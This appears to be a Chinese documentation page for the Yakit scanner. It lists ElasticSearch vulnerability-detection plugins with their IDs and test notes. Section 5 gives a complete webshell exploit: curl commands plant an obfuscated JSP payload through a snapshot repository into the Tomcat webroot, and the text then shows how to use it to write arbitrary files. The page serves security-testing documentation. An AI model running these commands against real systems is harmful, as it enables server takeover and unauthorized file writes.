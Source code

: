 ```yaml
---
sidebar_position: 17
---
```

# ElasticSearch

## 1 CVE-2014-3120 远程代码执行漏洞检测

**插件id：**

e8518ead-d759-4789-9531-73cb88c4eda7

**测试过程：**

将测试网站地址输入到该插件扫描目标栏，修改插件的额外参数添加端口号
插件成功检测到该漏洞

![](/img/products/yakit/ElasticSearch-1.png)

## 2 CVE-2015-1427 远程代码执行漏洞检测

**插件id：**

77975554-aa02-4d5d-b6dc-e960090b7288

**测试过程：**

将测试网站地址输入到该插件扫描目标栏，修改插件的额外参数添加端口号
插件成功检测到该漏洞

![](/img/products/yakit/ElasticSearch-2.png)

## 3 CVE-2015-3337 目录穿越漏洞检测

**插件id：**

4da6b591-5b7f-46b3-8f5c-84af1445e32c

**测试过程：**

将测试网站地址输入到该插件扫描目标栏，修改插件的额外参数添加端口号
插件成功检测到该漏洞

![](/img/products/yakit/ElasticSearch-3.png)

## 4 CVE-2015-5531 目录遍历与文件读取漏洞检测

**插件id：**

Yakit正在努力编写~

**测试过程：**

将测试网站地址输入到该插件扫描目标栏，修改插件的额外参数添加端口号
插件成功检测到该漏洞

![](/img/products/yakit/ElasticSearch-4.png)

## 5 WooYun-2015-110216 写入webshell漏洞

**插件id：**

Yakit正在努力编写~

**测试过程：**

首先创建一个恶意索引文档：

```go
curl -XPOST http://xx.xxx.xx.xx/yz.jsp/yz.jsp/1 -d'
{"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}
'
```

再创建一个恶意的存储库，其中location的值即为我要写入的路径。

```go
curl -XPUT 'http://xx.x.x.xxx:xxxx/_snapshot/yz.jsp' -d '{
     "type": "fs",
     "settings": {
          "location": "/usr/local/tomcat/webapps/wwwroot/",
          "compress": false
     }
}'
'
```

存储库验证并创建:

```go
curl -XPUT "http://xx.x.x.xxx:xxxx/_snapshot/yz.jsp/yz.jsp" -d '{
     "indices": "yz.jsp",
     "ignore_unavailable": "true",
     "include_global_state": false
}'
```

![](/img/products/yakit/ElasticSearch-5.png)

访问http://xx.x.x.xxx:xxxx//wwwroot/indices/yz.jsp/snapshot-yz.jsp
这就是我们写入的webshell
该shell的作用是向wwwroot下的test.jsp文件中写入任意字符串
如：http://xx.x.x.xxx:xxxx/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success，我们再访问/wwwroot/test.jsp就能看到success了

![](/img/products/yakit/ElasticSearch-6.png)
